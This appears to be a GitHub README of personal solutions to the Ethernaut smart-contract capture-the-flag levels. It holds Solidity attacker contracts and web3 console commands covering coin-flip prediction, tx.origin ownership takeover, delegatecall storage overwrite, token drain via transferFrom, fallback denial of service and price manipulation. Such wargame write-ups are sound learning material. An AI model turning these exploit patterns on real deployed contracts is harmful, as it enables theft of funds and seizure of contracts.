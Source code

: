 # ethernaut-challenges

Ethernaut is a list of smart contract - find the exploit - challenges: https://ethernaut.openzeppelin.com/

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```

### challenge 12

pretty easy to read out the storage.

for whatever reason metamask would change my input data which took me one hour to figure out. works with remix.

### challenge 15

create smartcontract and give it the allowance for all tokens. then run the attacker contract below.

```
contract Attacker {
    function attack(address _address) public {
        address me =    0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;
        address other = 0xEd6715D2172BFd50C2DBF608615c2AB497904803;
        NaughtCoin nc = NaughtCoin(_address);
        nc.transferFrom(me, other, nc.balanceOf(me));
    }
}
```


### challenge 16

most difficult until now... 

```
contract Attacker {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 

  function setTime(uint256 _address) public {
    owner = address(uint160(_address));
  }
}
```

### challenge 17

cheated by getting the contract address from etherscan (lol). correct way would be to get the account address (its deterministic) from `keccack256(address, nonce)` than I simply selfdestructed the contract.

### challenge 18

You have to create bytecode (for contract creation) that will create bytecode that returns 42. Do not forget evm is big endian!

```
6060600053602A600153606060025360006003536052600453606060055360206006536060600753600060085360F3600953600A6000F3
```

### challenge 20

```
pragma solidity ^0.6.0;

contract Partner {
  
  fallback() external payable {
    assert(false);
  }
}
```

### challenge 21


```
pragma solidity ^0.6.0;

contract Shop {
  bool public isSold;

  function buy() external {}
}

contract Buyer {
  Shop _shop = Shop(0x6F818c393e11624BcBCC6eAe4144fbd1235eA212);

  function price() external view returns (uint) {
    bool _isSold = _shop.isSold();

    if (_isSold) {
      return 33;
    }
    if (!_isSold) {
      return 120;
    }
    
  }
  
  function attack() public {
    _shop.buy();
  }
}
```

### challenge 19

Wow, this was the most fun so far.
You have to exploit the array underflow. That allows you to write to any storage address of the contract. Super powerful stuff.
Good thing that you can not manipulate array length after solidity 0.6 anymore.
